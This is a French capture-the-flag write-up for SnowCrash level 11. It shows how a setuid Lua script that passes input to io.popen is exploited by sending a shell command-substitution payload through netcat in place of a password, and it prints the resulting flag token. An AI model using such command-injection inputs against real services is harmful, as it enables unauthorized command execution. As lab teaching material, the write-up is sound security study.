#LEVEL 11

Nous avons un fichier .lua setuid, qui contient un script.

Le programme attend apparemment une connection sur 127.0.0.1 sur le port 5151;
Le script contient une fonction de hash et une boucle qui semble etre un prompteur.

Ce qui nous interesse dans le script ici c'est la fonction io.popen qui execute des commandes
nous allons lui faire executer getflag plutot que de lui envoyer un password.


On lance netcat:

level11@SnowCrash:~$ nc 127.0.0.1 5151
Password:

Comme prevu un prompteur avec une demande de mot de passe, a la maniere d'un script basique sh on lui envoye getflag puis le stock dans un fichier.


level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: $(getflag) > /tmp/pistache
Erf nope..
level11@SnowCrash:~$ cat /tmp/pistache
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

Nous avons notre flag pour le level suivant!
